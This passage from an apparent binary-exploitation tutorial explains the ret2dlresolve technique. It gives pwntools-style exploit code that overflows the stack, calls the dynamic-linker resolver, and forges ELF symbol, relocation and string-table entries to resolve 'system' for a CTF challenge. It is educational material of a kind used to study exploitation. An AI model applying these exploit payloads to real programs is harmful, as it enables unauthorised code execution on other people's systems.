 And we get the correct string `write` with our correct structures. Then we just need to pass the fake reloc_arg to stack and run dlresolver like this:

```
dlresolver = 0x401000

# Set the argument first and then run this to execute function
payload = b'A'*100              # Assume this is pad to rip
payload += p64(dlresolver)      # rip
payload += p64(reloc_arg)       # reloc_arg
payload += p64(start + 7)       # return address

p.send(payload)
```

Then the `write` function will be execute (because our fake STRTAB structure contain the string `write`). One more thing to know is that the resolver will take **a lot of lower stack address** so if you do a stack pivot, just make the rsp at the highest address as possible so that it will not jump out of writable memory when resolve.

Sometimes you can get this way of exploit doesn't work. For example with this challenge:

```
STRTAB = 0x400388
SYMTAB = 0x4002c8 
JMPREL = 0x400490

###################
### Get address ###
###################
Elf64_Sym_Addr = 0x601c40
symbol_number = int((Elf64_Sym_Addr - SYMTAB)/24)

Elf64_Rela_Addr = 0x601c70
reloc_arg = int((Elf64_Rela_Addr - JMPREL)/24)

STRTAB_addr = 0x601c90
st_name = STRTAB_addr - STRTAB

#############################
### Create fake structure ###
#############################
st_name = p32(st_name)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
Elf64_Sym_Struct = st_name + st_info + st_other + st_shndx + st_value + st_size

r_offset = p64(exe.got['fgets'])
r_info = p64((symbol_number << 32) | 0x7)
r_addend = p64(0)
Elf64_Rela_Struct = r_offset + r_info + r_addend

STRTAB_struct = b'system\x00\x00'
```
